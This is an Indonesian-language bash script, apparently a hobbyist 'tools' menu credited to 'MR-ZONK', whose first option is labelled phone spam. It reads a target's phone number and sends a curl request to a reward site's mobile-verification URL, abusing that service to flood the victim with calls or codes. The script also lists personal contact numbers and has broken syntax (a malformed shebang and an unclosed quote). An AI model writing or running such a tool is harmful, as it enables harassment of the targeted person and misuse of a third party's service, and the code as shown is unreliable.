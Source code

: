 #!bin/bash
clear
echo "****************************"
 
echo "____________________________"
echo "PEMBUAT RONAL/MR-ZONK" ID,KONTAK 089528100123"
echo "____________________________"
echo "****************************"
figlet Telp | lolcat
echo "::::::::::::::::::::::::::::::"
echo '
[1], telepon spam
[2], keluar &kontak admin
'
echo "::::::::::::::::::::::::::::::"
echo
read -p "masukan pilihan kalian lurd : " pil
if [[ $pil == 1 ]]; then
read -p "Masukan No Target contoh:89528100123  : " nomor
link="https://id.jagreward.com/member/verify-mobile/$nomor"
curl -s $link
else
echo "thanks ya lurd udah pakai tools MR-ZONK"
echo "kontak admin?081382379407"
exit
fi
echo
